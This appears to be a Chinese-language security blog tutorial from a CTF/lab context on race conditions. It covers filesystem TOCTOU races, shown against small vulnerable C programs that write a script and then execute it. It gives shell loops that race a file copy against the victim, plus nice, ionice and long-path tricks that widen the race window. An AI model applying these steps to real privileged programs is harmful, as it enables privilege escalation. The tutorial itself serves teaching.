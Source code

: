 ```yaml
---
layout: post
tags: [pwn]
title: "race conditions"
author: wsxk
date: 2024-12-11
comments: true
---
```


- [1. 什么是race condition](#1-什么是race-condition)
- [2. races in filesystem](#2-races-in-filesystem)
  - [2.1 races in filesystem 原理](#21-races-in-filesystem-原理)
  - [2.2 提高rece condition成功概率的方法](#22-提高rece-condition成功概率的方法)
    - [2.2.1 方法一: nice](#221-方法一-nice)
    - [2.2.2 方法二: Path Complexity](#222-方法二-path-complexity)
- [3. processes and threades](#3-processes-and-threades)


# 1. 什么是race condition<br>
在古早时期，CPU是单核的，但是你想在这颗CPU上运行多个进程，这意味着:<br>
```
用户感受到两个进程同时运行，但是实际上在某个时刻内，只有一个进程能被执行
只不过用户(人)感受不到这个变化
```
现代，CPU是多核的，但是:<br>
```
1. 进程数量还是多于核数
2. 内核因此还是需要决定什么时候调度哪些进程
3. 存储控制器的通道有限（四通道），存储媒介通道有限，网络通信是单通道的
```
这些限制都导致计算机无法同时运行所有进程。<br>
`race condition`出现的核心要旨是**计算设备的瓶颈导致并发的事件至少有一部分需要被序列化**<br>
**通常，没有隐式依赖或者程序显式的努力，执行顺序只能在进程内(一个线程)得到保证**<br>
这也导致一个问题，如果进程A和B都检查文件C的内容(check),符合条件就更新文件C(change)；然后进程A和B按照如下顺序被执行:<br>
```
1. A check #通过
2. B check #通过
3. A change # A改变了C的内容
4. B change # 讲道理此时不应该执行B，但是B还是能被执行，导致C的内容被改变了2次
```
这就是`race condition`!<br>
**要想利用race condition，我们需要在应用执行的薄弱时期，精细地影响其状态才行**<br>

# 2. races in filesystem<br>
书接上回，攻击者通过改变程序运行的状态，而程序假设它的状态没有改变,导致`race condition`<br>
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241212221549.png)
为了利用`race condition`,攻击者需要能够影响所说的环境，**Races in filesystem**就是一个很常见的例子。<br>
## 2.1 races in filesystem 原理<br>
文件系统是攻击者能够经常影响的程序环境的一部分。<br>
利用文件系统实施攻击，本质上是在进程运行时，操控进程运行所需的文件达到利用`race condition`的目的。<br>
考虑这段代码:<br>
```c
int main(int argc, char **argv) {
    int fd = open(argv[1], O_WRONLY | O_CREAT | O_TRUNC, 0755);//O_TRUNC 标志在打开文件时会丢弃文件原本的内容，即清0
    write(fd, "#!/bin/sh\necho SAFE\n", 20);
    close(fd);
    execl("/bin/sh", "/bin/sh", argv[1], NULL);
}
```
在open打开文件和实际执行/binsh之间存在空窗期可以利用！<br>
```
具体利用步骤:
1. gcc fs1.c -o fs1
2. 启动一个terminal， 运行 while /bin/true; do cp -v catflag asdf; done
3. 再启动一个terminal，运行 for i in $(seq 1 2000); do ./fs1 asdf; done | tee output
   运行 sort output | uniq -c 查看运行次数  
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241213210133.png)
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241213211751.png)

## 2.2 提高rece condition成功概率的方法<br>
考虑如下代码:<br>
```c
int main(int argc, char **argv) {
    int echo_fd = open("/bin/echo", O_RDONLY);
    int fd = open(argv[1], O_WRONLY | O_CREAT, 0755);
    sendfile(fd, echo_fd, 0, 1024*1024);
    close(fd);
    execl(argv[1], argv[1], "SAFE", NULL);
}
//这段代码的空窗期比2.1提到的小得多，主要原因是/bin/sh执行时需要加载很多system call
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241213211831.png)
这概率小太多了，因此，我们需要提高空窗期的方法！<br>

### 2.2.1 方法一: nice<br>
`nice`命令和`nice system call`允许用户设置进程在`linux kernel`调度器中的优先级。<br>
`linux kernel scheduler`的优先级从高到低 为-20~19，优先级越高的进程，能够获得cpu资源的比例就越高<br>
`ionice`的用法和`nice`差不多，只不过它设置的是进程的io调度优先级，优先级从高到低是0~7，<br>
**这种方法的思路就是通过降低进程在系统中被执行的优先级，从而提高空窗期**<br>

用法如下:<br>
```
1. 启动一个terminal， 运行 while /bin/true; do cp -v catflag asdf; done
2. 再启动一个terminal，运行 for i in $(seq 1 2000); do nice -n 19 ./fs2 asdf; done | tee output
   运行sort output | uniq -c
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241214001123.png)
可以看到，概率还是命中次数差不多提升了一倍。<br>
`ionice也有差不多的效果`<br>
```
for i in $(seq 1 2000); do ionice -n 7 ./fs2 asdf; done | tee output
sort output | uniq -c
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241214102238.png)
两者结合，使用效果更佳:<br>
```
for i in $(seq 1 2000); do nice -n 19 ionice -n 7 ./fs2 asdf; done | tee output
sort output | uniq -c
```
![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2024-9-25/20241214102358.png)

### 2.2.2 方法二: Path Complexity<br>
`filesystem race`涉及到文件系统访问，但是 不是所有的文件系统访问都是想等的<br>
```
cat my_file 比
cat a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/p/q/r/s/t/u/v/w/x/y/z/my_file
快得多！
因为内核需要花时间进入这些目录！
```
**这给了我们一个灵感：即可以传超级长路径来降低程序访问文件的速度,从而提高空窗期(需要注意，linux的路径限制最长为4096字节)**<br>


# 3. processes and threades<br>


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>